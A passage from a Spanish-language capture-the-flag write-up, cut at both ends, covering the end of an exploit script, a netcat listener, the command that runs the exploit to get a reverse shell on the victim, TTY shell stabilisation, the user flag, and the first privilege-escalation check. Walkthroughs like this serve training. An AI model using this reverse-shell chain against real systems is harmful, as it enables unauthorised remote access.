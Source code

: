 ```python
    lhost, lport, url = get_arguments()
    try:
        exec_cmd(lhost, lport, url)
        print("\n[+] Connection established")
    except:
        print("\n[!] Something went wrong. Try again..")

if __name__ == "__main__":
    main()
```

Nos ponemos en escucha en la máquina atacante por un puerto a elección

```bash
nc -lnvp <puerto-en-escucha>
```

Ejecutamos el exploit pasandole nuestra ip de atacante, el puerto por el que estamos en escucha y la url de la basket creada con la configuración modificada para redireccionarnos al localhost del servidor

```bash
python3 exploit.py <ip-atacante> <puerto-en-escucha> http://<ip-victima>:55555/<basket>
```

Para obtener un control total de la consola, realizamos el tratamiento de la TTY.

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

## User flag
La user flag la encontramos en el directorio `/home/puma/`

```bash
cat /home/puma/user.txt
```

# Escalada de privilegios
---
Listamos los privilegios del usuario actual.

```bash
sudo -l
```

El resultado muestra que el usuario puma puede ejecutar `sudo /usr/bin/systemctl status trail.service` sin necesidad de contraseña.

